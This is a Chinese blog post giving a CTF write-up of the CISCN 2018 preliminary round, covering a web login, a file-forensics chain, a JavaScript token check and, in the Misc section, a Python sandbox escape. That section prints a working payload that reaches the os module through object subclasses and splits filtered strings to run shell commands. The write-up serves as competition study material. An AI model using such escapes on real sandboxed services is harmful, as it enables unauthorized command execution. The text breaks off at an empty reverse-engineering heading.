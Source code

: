 ```yaml
---
layout: post
title: CISCN 2018 初赛 Write-up
date: 2018-05-28 15:25:24.000000000 +08:00
categories:
  - writeup
tags: 
  - ciscn
---
```


多年不更新，趁有时间整理一下最近比赛的writeup.

虽然是饱受诟病的国赛和永远做不了的选择题，虽然题目有点乱，但是。。。毕竟是国赛嘛，还是得认真打

## Web

### Easyweb

。。。找了半天的注入点发现是空密码我会告诉你？

### Picture

下载到的 PNG（实际是 JPG）尾部添加了 zlib 数据。

binwalk –e 提取之，发现是 base64 编码；解码之，获得一个文件头是“4B 50”的文件。

修改为“50 4B”，发现是压缩包，提示密码是“ZeroDivisionError: …………”
用 python 被零除的默认错误信息实验（integer division or modulo by zero）（感谢某lth大佬提供脑洞），成功解压

解压出的文件是 uuencoded，uudecode 之，获得 flag

### Flag_in_your_head 

Js 实际是 MD5 实现，但 binl 中添加了一个 ck 函数 

```javascript
function ck(s) {
    try {
        ic
    } catch (e) {
        return;
    }
    var a = [118, 104, 102, 120, 117, 108, 119, 124, 48,123,01,121];
    if (s.length == a.length) {
        for (i = 0; i < s.length; i++) {
            if (a[i] - s.charCodeAt(i) != 3)
                return ic = false;
        }
        return ic = true;
    }
    return ic = false;
} 
```

显而易见，将 A 的各元素 ASCII-3，获得 Token：*security-xbv*。传入，获得 flag.

## Misc

### Run

比较典型的 Python 沙盒逃逸。
首先先用 object 基类的__subclasses__子类内的 file 子类，可以构成文件读取：

```python
    [].__class__.__base__.__subclasses__()[40]('/home/ctf/sandbox.py')
```

虽然不能直接 getshell，注意到退出时的错误信息 leak 出文件名，可以读取到源码。

此时的直接想法是利用 warnings.catch_warnings 类 linecache 引入的 os 模块，执行系统命
令；但是 func_globals 被 ls 规则过滤，故使用如下 payload:

```python
    >>> p = ‘func_global’ + ‘s’
    >>> o = [].__class__.__base__.__subclasses__()[59].__init__.__func__.__getattribute__(p)['linecache'].__dict__.values()[12].__dict__.values()[144]
    >>> c = ‘l’ + ‘s /home/ctf/’
    >>> o(c)
    5c72a1d444cf3121a5d25f2db4147ebb
    bin
    cpython.py
    cpython.pyc
    sandbox.py
    >>> c = 'ca' + 't /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'
    >>> o(c)
    ciscn{62a20588ef9766b418537c763366ea0c}
```

## RE
### 